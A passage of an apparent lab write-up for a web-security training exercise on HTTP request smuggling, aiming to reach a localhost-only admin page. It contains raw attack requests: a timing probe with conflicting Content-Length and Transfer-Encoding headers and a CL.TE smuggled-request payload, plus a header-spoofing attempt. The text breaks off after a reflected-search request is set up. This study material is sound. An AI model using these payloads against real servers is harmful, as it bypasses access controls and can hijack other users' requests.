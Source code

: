 We need the admin page, but it can only be accessed from localhost

So we first try to add `X-Forwarded-For: 127.0.0.1` header, but we still get Unauthorized, because the frontend server overwrites `X-Forwarded-For` header before it gets to the backend server

So we want to figure out if it's CL.TE or TE.CL, let's try doing that by using timing technique:
```bash
POST / HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked
\r\n
3\r\n
abc\r\n
x\r\n
```
The response is timing out and that's an indication that there is a CL.TE
So we've got to confirm that with differential responses:
Norm req:
```bash
POST / HTTP/1.1
Host: 0a7a00c80443862881fbb12700510041.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

Attack req:
```bash
POST / HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 103 # 103 is the exact length from `0\r\n` up until (and including) `x=`
Transfer-Encoding: chunked
\r\n
0\r\n
\r\n
GET /jjjjjjjjjj HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
\r\n
x=
```
So we send attack, norm reqs and we get back 404 Not found. It confirms CL.TE

Now we try `X-Forwarded-For` header inside our attack req (in the second part of it)
But we get 401 Unauthorized anyway

So in the lab we have an endpoint that reflects whatever we send in the req body in the response
This will be our normal request now:
```bash
POST / HTTP/1.1
Host: labid.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

search=norm
```
And `norm` is reflected in the response
